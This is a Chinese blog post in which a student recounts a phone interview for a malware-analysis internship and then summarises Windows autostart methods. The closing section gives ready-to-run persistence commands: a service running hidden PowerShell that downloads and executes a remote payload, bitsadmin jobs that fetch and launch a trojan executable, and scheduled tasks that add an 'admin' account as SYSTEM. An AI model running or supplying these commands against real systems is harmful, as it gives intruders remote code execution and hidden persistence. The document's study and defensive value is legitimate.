

微步电面-收获总结
前言：想着大二的寒假找机会实习，就投了微步的简历，第一次收到的电话面试，面试的李哥问到的一些问题，自己当时确实还不知道，同时总结一下面试中学到的 :)
面试流程篇
自我介绍：
一篇准备好的自我介绍很重要，面试官之前肯定看过你的简历，但是开始面试时还是会让你简单做一下自我介绍，大家现在肯定比较好奇，实际上这个环节是比较重要的，此时的自我介绍不在仅仅只是简历上的内容，我面试的属于安全行业，所以可以大概简明扼要的说一下自己怎么解除这一行业的，大部分安全行业的从业者基本都有个共性，可能大家当初了解网络安全的时候，都会带着一丝武侠小说的情怀在里面，这个确实吸引了大部分安全从业者兴趣吧，就我自己了解来说13年左右感觉上安全爱好者数量的一个爆发期，这里不多谈。只是想告诉大家，在自己介绍的环节可以谈谈自己当初有过什么比较好玩，或者有趣的经历在接触或学习这一行的路程中 (￣▽￣)。
技术面试：
这个就是很重要的环节了，不用我说大家也知道，特别是我们这一行很看技术能力，自己技术能力基本完全决定了面试能否通过，我下面列举一下当时李哥问的一些问题，我面的方向主要是做恶意代码分析，逆向工程相关的。
- 问：PE结构是否熟悉？
回答思路：由于我基本是从做CTF PWN题开始的，对可执行文件结构的了解，ELF结构相对偏多，但记得本质上是COFF结构，PE，和ELF都是其变种，所以我可以从共性上来回答，同时也想到之前看的滴水逆向课程中将任意文件解析执行为任意PE文件的操作，个人感觉的重点是PE头，节区表，数据段，以及入口地址，如果我们完全了解这几个点，基本上就能改造任意PE文件，但可能我当时回答的不是特别清楚，这一块回头必须得重新系统的学习一下
- 问：有没有调过那些有意思shellcode？
回答思路：这个真的幸亏电面前天做的一个响尾蛇的APT样本分析中遇见了，当时样本利用的cve-2017-11882，来执行shellcode，（关于这个样本的分析我回头补上，简单描述实际上比较简单，shellcode主要利用地址无关技术，这个具体的文章我后面考完试也补上。）这个样本shellcode比较有意思的地方就把密文解密后替换掉命令行字符，来加载执行，其中解密过程很简单，就算异或一个12具体可以参考下图：


- 问：没有写过脱壳器？或者手工脱个壳子一类的？
答：这个我自己还真没有尝试写过脱壳器，手工脱壳也是特别简单的upx,自己主要还是脚本类型的代码审计的比较多，而且做样本分析也多是APT类的样本，主要就算js,vbs,ps1,一类，而且多是函数名，变量名混淆，在二进制层面见得比较多的也是ollvm混淆，c#也有混淆器，但在最近的样本中都没遇见。
- 问：有没有了解AES加密算法？
答：加密算法类，确实有一点了解，AES能看懂虽然不是很深入，但国密，特别是SM4加密算法，自己有写过，用c#和go来实现，写了不下三遍。
- 问：有没有看过windows内核驱动？或者自己写过相关的驱动程序？
答：windows内核的确实还没好好看过，这个确实比较尴尬。
- 问:有没有分析过勒索类或者蠕虫类的样本？
答：这个确实有点迷了，自己分析得最多的还是rat，后门类的样本，其中脚本类型偏多，多是利用文档类型漏洞，比较有意思的就算利用lnk文件的钓鱼操作，勒索类的确实没有分析过，蠕虫类，也仅仅看过webshell类的蠕虫感染。这个有时间得补上
- 问：windows平台自启有几种方式？
答：当时只知道有三种（注册表，启动目录，计划任务），后面问大佬才知道最少有6总，我下面做了一份总结。
心得总结
感想：
面试体现出来，我自己还是存在很多问题，当时稍微有点点乱，可能导致回答时，有些没说清楚，还有就是技术上的知识欠缺，所以回头抓紧时间补起来，后天期末考试，考完在把一些帖子补起来。
windows平台开机自启方式总结
| 利用注册表的方式实现自启 | |||
| 注册键 | 路径 | 注释 | |
| Load | HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows\load | 这个解释没找到，我查看我本机时也为找到（求大佬指点） | |
| Userinit | HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit | 这里也能够使系统启动时自动初始化程序。 | |
| Explorer\Run | HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run | 对当前用户生效 | |
| HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run | 对所有用户生效 | ||
| RunServicesOnce | HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce | 用来启动服务程序，启动时间在用户登录之前，而且先于其他通过注册表键启动的程序 | |
| HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce | |||
| RunServices | HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices | RunServices 子键也是在用户登录前及其他注册表自启动程序加载前面加载 | |
| HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices | |||
| RunOnce\Setup | HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce\Setup | RunOnce\Setup 指定了用户登录之后运行的程序 | |
| HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce\Setup | |||
| Run | HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run | Run是自动运行程序最常用的注册键 | |
| HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run | |||
服务启动
sc create "name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX(((new-object net.webclient).downloadstring('http://192.168.1.82:19001/a'))\""
SC config "name" start= auto //我们需要把这个name服务设置为自动。
Sc description "name" "description" // 设置服务的描述字符串
net start "name" // 启动服务
SC delete "name" //删除这个服务，不想使用服务直接删除
注意:不是所有程序都可以作为服务的方式运行,所以请看：http://www.x2009.net/articles/create-a-windows-service-methods.html
Bitsadmin
bitsadmin /create start_test //创建任务
bitsadmin /addfile start_test http://www.baidu.com/muma.exe %temp%\muma.exe //添加文件，此步骤是为下一步做铺垫，
bitsadmin /SetNotifyCmdLine start_test "%COMSPEC%" "cmd.exe /c bitsadmin.exe /complete \"backdoor\" && start /B %temp%\muma.exe" //第二步完成之后就启动这一步
bitsadmin /Resume start_test //启动下载任务启动项
C:\Users{user}\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
SchTasks 计划任务
官方文档
Onstart:schtasks /create /tn sch /ru system /sc onstart /tr "net user admin admin /add" /f
Onlogin:schtasks /create /tn sch /ru system /sc onlogin /tr "net user admin admin /add" /f
Onidle:schtasks /create /tn sch /ru system /sc onidle /i 1 /tr "net user admin admin /add" /f
every 1 min:schtasks /create /tn sch /ru system /sc MINUTE /mo 1 /tr "net user admin admin /add" /f
every 1 day:schtasks /create /tn sch /ru system /sc daily /mo 1 /tr "net user admin admin /add" /f
onince:schtasks /create /tn "My App" /tr c:\apps\myapp.exe /sc once /sd 01/01/2003 /st 00:00 /f